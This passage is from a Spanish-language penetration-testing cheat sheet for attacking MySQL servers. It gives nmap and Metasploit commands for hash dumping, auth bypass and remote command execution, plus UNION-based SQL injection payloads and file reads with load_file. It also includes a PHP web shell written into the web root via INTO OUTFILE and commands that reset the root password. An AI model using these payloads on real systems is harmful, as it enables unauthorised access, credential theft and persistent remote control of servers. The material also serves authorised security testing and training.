 x$waits\_by\_host\_by\_latency\
x$waits\_by\_user\_by\_latency\
x$waits\_global\_by\_latency
{% endtab %}
{% endtabs %}

## ENUMERACIÓN

### Externa

Utilizando nmap o msf:

```bash
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```

### [Fuerza Bruta](../techniques/fuerza-bruta/cheatsheet.md#mysql)

## COMANDOS SQL

```sql
show databases;
use <database>;
show tables;
describe <table_name>;
show columns from <table>;

select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
select user,file_priv from mysql.user where user='root'; #File privileges
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Conseguir una shell con el usuario de MySQL
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```
